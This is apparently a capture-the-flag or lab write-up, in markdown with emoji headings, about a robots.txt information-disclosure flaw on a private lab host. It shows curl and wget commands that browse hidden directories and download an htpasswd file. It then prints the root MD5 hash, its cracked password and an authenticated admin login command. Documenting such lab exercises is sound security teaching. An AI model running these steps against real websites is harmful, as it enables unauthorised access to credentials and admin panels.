 # 🤖📝 Robots.txt Information Disclosure

> **OWASP Category:** A01:2021 – Broken Access Control  
> **Severity:** 🟡 Medium  
> **Difficulty:** 🟢 Easy

The website exposes sensitive information through its `robots.txt` file, which is intended to guide web crawlers but inadvertently reveals hidden directories and files. This information disclosure leads to the discovery of password files and administrative interfaces that should remain private.

🎯 **The Irony:** A file meant to hide content from search engines becomes a roadmap for attackers!

---

## 🎯 Exploit Technique

### 🔧 Discovery Process

#### 🥇 **Step 1 - Robots.txt Reconnaissance**
```http
GET /robots.txt HTTP/1.1
Host: 192.168.64.2

Response:
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

#### 🥈 **Step 2 - Directory Enumeration**
```bash
# Explore discovered paths
curl http://192.168.64.2/whatever/
# Result: Directory listing with htpasswd file

curl http://192.168.64.2/.hidden/
# Potentially more sensitive files
```

#### 🥉 **Step 3 - Password File Discovery**
```bash
# Download the exposed password file
wget http://192.168.64.2/whatever/htpasswd

# Content revealed:
root:437394baff5aa33daa618be47b75cb49
```

#### 🏆 **Step 4 - Credential Recovery & Access**
```bash
# Decrypt the password hash
# Hash: 437394baff5aa33daa618be47b75cb49
# Method: MD5 hash lookup/brute force
# Result: qwerty123@

# Access admin panel
curl -u root:qwerty123@ http://192.168.64.2/admin/
```
